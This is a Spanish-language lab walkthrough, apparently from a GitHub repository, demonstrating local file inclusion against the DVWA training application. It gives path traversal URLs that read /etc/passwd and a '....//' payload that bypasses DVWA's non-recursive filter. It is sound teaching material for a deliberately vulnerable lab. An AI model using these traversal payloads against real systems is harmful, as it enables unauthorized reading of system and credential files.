




# POC File inclusion

## 0 seguridad ☠️

Utilizaremos la pagina web DVWA para estas pruebas. Lo primero que veremos en la web es que en la url tenemos una variable llamada page que se iguala a include.php. Como hemos visto anteriormente esto es posible que este llamando a ese archivo a través de rutas relativas por lo que podemos intentar modificar la ruta a mano para acceder a archivos sensibles del sistema.



```
http://172.28.61.42/vulnerabilities/fi/?page=../../../../../etc/passwd
```



Como vemos el archivo se carga de forma correcta en la cabecera de la pagina mostrándonos el fichero /etc/passwd 

## Un poco de seguridad

Como vemos en la imagen inferior ahora no podemos realizar el ataque cuando establecemos el mismo path que pusimos anteriormente.



¿Que sucede internamente?

```php

<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );

?>
```

```php
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\"" ), "", $file );
```

Estas lineas estan reemplazando las cadenas ../ y ..\ (diferenciando para sistemas windows y linux) por espacios en blanco esto provoca que no podamos realizar el mismo direccionamiento que hicimos anteriormente, la forma mas sencilla de solucionar esto es engañando al replace con una combinacion de caracteres que de como resultado la cadena que vimos anteriormente. Al no aplicarse de forma recursiva no puede comprobar si el resultado de la operación sigue siendo "peligroso" por lo que nos dejara acceder.



Usando la siguiente linea.

```
http://172.28.61.42/vulnerabilities/fi/?page=....//....//....//....//....//....//....//etc/passwd
```

Podemos volver a tener acceso ya que al retirar el replace la parte marcada en negrita "..**(../)**/" nos deja la cadena ../ pudiendo de esta forma buscar el fichero que queriamos.